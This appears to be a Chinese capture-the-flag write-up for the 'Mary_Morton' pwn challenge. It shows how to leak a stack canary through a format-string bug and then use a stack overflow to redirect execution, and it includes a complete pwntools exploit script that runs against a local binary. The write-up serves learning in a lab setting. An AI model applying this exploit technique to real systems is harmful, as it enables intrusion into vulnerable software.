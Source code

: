 ***
## 题目信息
攻防世界：Mary_Morton
***
## 题解
入手checksec和file一下
![e9c8a536a3c6d3bfe47ed0463a59b13b.png](../_resources/e9c8a536a3c6d3bfe47ed0463a59b13b.png)
运行测试
![92c4c523ee72c409810d6b5327227ee7.png](../_resources/92c4c523ee72c409810d6b5327227ee7.png)
根据回显和提示，猜测应该是先用格式化字符串漏洞爆出canary的值，然后用栈溢出拿shell
首先先尝试`AAAAAAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p`来爆出输入字符在参数中的位置
![512263c1300bada4d1f0e5fff5ddcb06.png](../_resources/512263c1300bada4d1f0e5fff5ddcb06.png)
从图中可以看出，输入字符在第6个参数
把程序进行逆向解析
![5d3919b1c940c60f1681f226ca0b79dc.png](../_resources/5d3919b1c940c60f1681f226ca0b79dc.png)
输入的字符占17个字节，那么canary的位置就是第17+6=23个参数的位置
所以可以使用`%23$p`的payload来爆破canary的值，之后利用栈溢出，将canary插入到payload当中就可以
下面是exp
```
from pwn import *

context.log_level = 'debug'
p = process('Mary_Morton')

flag = 0x004008da

p.recv()
p.sendline(b'2')
#gdb.attach(p, 'b *0x004008f6')
#pause()
payload = b'%23$p'
p.sendline(payload)
p.recvuntil('0x')
canary = p.recv(16)
canary = canary.strip().decode()
canary = int(canary, 16)
print(hex(canary))
p.sendline(b'1')
payload = b'A' * 0x88 + p64(canary) + b'A' * 0x8 + p64(flag)
p.send(payload)
p.interactive()
```
嘿嘿
***
## 总结
1、绕过canary可以通过格式化字符串漏洞来爆破出canary的值方式
2、对于python3中16进制地址的获取和转化，可以通过以下代码来进行
```
canary = p.recv(16)
canary = canary.strip().decode()
canary = int(canary, 16)
```